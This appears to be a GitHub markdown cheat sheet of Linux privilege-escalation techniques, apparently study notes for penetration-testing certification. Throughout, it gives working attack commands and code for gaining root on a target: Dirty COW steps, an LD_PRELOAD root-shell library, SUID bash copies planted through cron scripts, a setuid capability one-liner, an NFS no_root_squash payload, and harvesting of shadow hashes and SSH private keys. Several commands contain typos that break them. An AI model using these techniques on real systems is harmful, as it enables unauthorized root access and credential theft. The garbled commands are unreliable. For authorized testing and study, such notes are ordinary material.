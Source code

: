 # Linux Privilege Escalation
## //cheat-sheet

**[Back to Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

### Resources:

* **[g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)**
* **[hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**
* **[sushant747 OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)**

### Automated privesc tools:

* **[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**
* **[linenum](https://github.com/rebootuser/LinEnum)**
* **[linenumsuggester](https://github.com/mzet-/linux-exploit-suggester)**
* **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**

### Escalation path: Kernel exploits
#### Kernel exploits are very straight forward. We hunt down what version of kernel is running on the target system and then we exploit it.

* **[resource: lucyoa/kernerl-exploit](https://github.com/lucyoa/kernel-exploits)**

* chek kernel version on target system: `uname -a`
* compile dirty c0w.c first `gcc -phthread c0w.c -o cow`
* use dirty c0w on target machine `./cow`
* c0w output: ***Backing up /usr/bin/passwd to /tmp/bak***
* type in: `passwd` and you're **root**

### Escalation path: Password and file permissions

#### Escalation via stored passwords:

* see history if possible, if someone connected to a mysql database with their credentials for example it will show up in there, use command `history`
* cat out the `cat .bash_history` as well
* you can also try using the ***history*** command with ***grep*** to grep for the password: `histroy | grep passwd`
* `ps aux` to see processes
* `w` to see who's logged in 
* when asked for a password on the system if you see asterisks while typing out the password in terminal that's a very specific version of ***sudo***, that's usually the **.pwfeedback** is being set. **Any sudo before 1.8.6**. Usually Linux Mint and Elementary OS, get sudo version: `sudo -v` **env_reset.pwfeedback** is being reset.
* ***cat*** out the ****.ovpn*** file to check for credentials or references: `cat myvpn.ovpn` shows that the password is coming from the ***/etc/openvpn/auth.txt*** so we can just cat that file out for credentials

#### Escalation via weak file permissions:

* `ls -la /etc/passwd` and `ls -la /etc/shadow` if you can access both and cat them out we can use ***john*** or other similar tools to crack those passwords
* passwd file doesn't have any passwords in it (back in the day it was) , it helps us to ID the users
* **x**  is a placeholder in it for the hash which contains the password from the shadow file
* if we can modify /etc/passwd the x in the file we could become root,
like delete it, if there's no placeholder we can just switch to root user without a password or change it to 0
* we can change the hash to one where we know the password and become root like that

#### Escalation via ssh keys:

* `find / -name authorized_keys 2>/dev/null`
* `find / -name id_rsa 2>/dev/null`
* once the key was found copy it to your machine into a file and don't forget to `chmod 600 id_rsa` to be able to use it to log in via ssh
* `ssh -i id_rsa root@<target IP>`

### Escalation path: sudo

#### Preloading

* it's a feature of LD (dynamic linker)
* we're going to preload a user library by running sudo with ID preload and execute our own library before anything else
* `nano shell.c`
* `#include <stdio.h>`
* `#include <sys/types.h>`
* `#include <stdlib.h>`
* `void_init() {`
* `   unsetenv("LD_PRELOAD");`
* `   setgid(0);`
* `   setuid(0);`
* `   system("/bin/bash");`
* `}`


* don't forget to include tabs with lines: unsetenv, segid, setuid, system
* compile it: `gcc fPIC -shared -o shell.so shell.co -nostartfile`
* ***fPIC is position independent code***, regardless of what your shell address is, it will work
* need full path to ***shell.so***
* run it: `sudo LD_PRELOAD=/home/usr/shell.so apache2`

### Escalation path: SUID

* to hunt it down: `find / -type f -perm -04000 -ls 2>/dev/null`

#### Shared object injection:

* strace is diagnosing, debugging Linux for tampering and monitoring
* `strace /usr/local/bin/suid-so 2>&1`
* grep the output `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`


#### Symbolic link

* symbolic link: any file that contains a reference to another file or directory in a form of an absolute or relative path
* create a function and export it: `function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
* export service: `export -f /usr/sbin/service`
* compile it and change path: `gcc /tmp/service/.c -o /tmp/service` and `export PATH=/tmp:$PATH`

### Escalation path: capabilities

* searching for capabilities: `getcap -r / 2>/dev/null`
* found (ex) : `/usr/bin/python2.6 = cap_setuid+ep`
* execute: ` /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

### Escalation path: scheduled tasks

* **m h dom mon dow user command** /month, hour, day of month, month, day of week, user, command
* `17 * * *` every 17th minutes execute a command for a user
* `* * * * root /user/local/bin/compress.sh`
* `* * * * root overwrite.sh`
* then
* `systemctl list-timers --all`
* add to file that root executes via crontab: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
* wait for crontab to kick in and run: `/tmp/bash -p` and we're root!

* ***note: The -p option in bash and ksh is related to security. It is used to prevent the shell reading user-controlled files.***

* **Another way of overwriting the crontab file is:**
* `cat /usr/local/bin/overwrite.sh`
* `nano /usr/local/bin/overwrite.sh`
* `#!/bin/bash`
* `echo date > /tmp/useless`
* `cp /bin/bash /tmp/bash; chmod +s /tmp/bash`
* now we have overwritten the ***overwrite.sh*** file, now run: `/tmp/bash -p`
* `whoami`
* **root!**

### Escalation via NFS root squashing

* on target machine `cat /etc/exports` shows no root squash but what does this mean? /tmp folder can be mounted from attacking machine!
* `showmount -e <target IP>` results will show up
* `/tm *`
* make a folder on your machine `mkdir /tmp/mountme`
* and mount it: `mount -o rw vers=2 <target IP>:/tmp /tmp/mountme`

* from kali: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
* compile it: `gcc /tmp/mountme/x.c -o /tmp/mountme/x`
* chande mod: `chmod +x /tmp/mountme/x`
* now cd over to /tmp on target machine and execute `./x`
* we're root!

### Upgrade your shell on target machine

* `python 'import pty;pty.spawn("/bin/bash")'
* `export TERM=xterm
* background your shell with **CTRL+Z**
* `ptty raw -echo; fg`

